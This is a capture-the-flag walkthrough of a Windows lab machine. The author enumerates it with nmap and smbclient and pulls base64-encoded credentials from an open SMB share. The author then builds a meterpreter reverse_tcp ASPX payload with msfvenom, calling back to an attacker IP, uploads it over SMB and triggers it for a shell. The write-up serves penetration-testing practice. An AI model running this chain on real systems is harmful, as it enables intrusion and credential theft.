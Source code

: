 # Enumeration 
## Starting with `nmap`
```python
nmap -T4 -sV -vv -O -A -Pn 10.10.156.23 -oN nmap.txt
```
I found these interesting information
```note
80/tcp   open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  syn-ack ttl 127 Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
...
```
Nothing much so I tried to access the target website and it looked like this
![Image](https://github.com/user-attachments/assets/552a041d-659e-4f11-8a09-6ba308a64185)
![Image](https://github.com/user-attachments/assets/cc79aad6-1a22-4c2b-8b18-8974be3f515c)
## Moving on with `Gobuster` to discover hidden path
![Image](https://github.com/user-attachments/assets/afe7677f-45d4-4170-a24e-7d13ee8075e2)
Still, I hadn't found any thing interested
## Checking the `smbclient`
```python
smbclient -L  \\\10.10.156.23\\        
Password for [WORKGROUP\b0xb0x]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.156.23 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
I found the sharename `nt4wrksv`, so I attempted interacting with that sharename to dive deeper

```python
smbclient  \\\\10.10.156.23\\nt4wrksv
Password for [WORKGROUP\b0xb0x]:
Try "help" to get a list of possible commands.
smb: \> get password.txt
NT_STATUS_OBJECT_NAME_NOT_FOUND opening remote file \password.txt
smb: \> ls
  .                                   D        0  Sun Jul 26 07:46:04 2020
  ..                                  D        0  Sun Jul 26 07:46:04 2020
  passwords.txt                       A       98  Sun Jul 26 01:15:33 2020
get pass
                7735807 blocks of size 4096. 5136836 blocks available
smb: \> get passwords.txt
getting file \passwords.txt of size 98 as passwords.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
```

Amazing, I got the `passwords.txt` file, check what are inside the file
```python
cat passwords.txt
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```
It contained encoded users and passwords? First, I had to decode these strings first, decode the first line first
![Image](https://github.com/user-attachments/assets/01642ed9-32f0-43e8-8976-74854344c8b0)
After that, the second line
![Image](https://github.com/user-attachments/assets/926570d5-e8e9-4e90-8e52-f7a08b95b9fa)
So I got two usernames and passwords.
Then run a Nmap vulnerability scan on port 139 and 445 to enumerate this service. Command use:
```python
nmap -T4 -sV --script vuln -p 139,445 10.10.83.126
```
The results
```note
...

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
...
```
Next step is searching for SMBv1 
However, I found nothing, I had to enumerate more
I reckoned that there were still many hidden ports beside those common ones 
So I checked all the hidden port via this command
```python
nmap -T4 -sV -vv -O -A -p- 10.10.225.34
```
Results:
```note

```
The port 49663 was running on http.
Accessing this port 49663
![Image](https://github.com/user-attachments/assets/383e06e9-1fd4-44f5-8feb-3ef8c783fbf7)
Nothing special for this one so I tried the directory of the smb group and found this
![Image](https://github.com/user-attachments/assets/0f841027-bb53-469d-bbe0-1fd13f8cf6d1)
Therefore, implementing a reverse meterpreter for this port is the best way via generating payload and upload that payload under the name Bill or Bob 
```note
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.23.99.113 LPORT=1234 -f aspx -o metx64.aspx
```
```note
smbclient   \\\\10.10.225.34\\nt4wrksv -U Bill
Password for [WORKGROUP\Bill]:
Try "help" to get a list of possible commands.
smb: \> put metx64.aspx
putting file metx64.aspx as \metx64.aspx (3.2 kb/s) (average 3.2 kb/s)
```
Setting up a multi/handler to recieve the connection
![Image](https://github.com/user-attachments/assets/697351cf-5ef0-4706-8635-ac820428f6a3)
First, trigger the payload by accessing to it via port 49663
![Image](https://github.com/user-attachments/assets/f7df8b06-9071-4bd9-9ef0-916673f5ad22)
Got the user flag
![Image](https://github.com/user-attachments/assets/6986c040-aeed-49fa-b23b-9215dc342966)

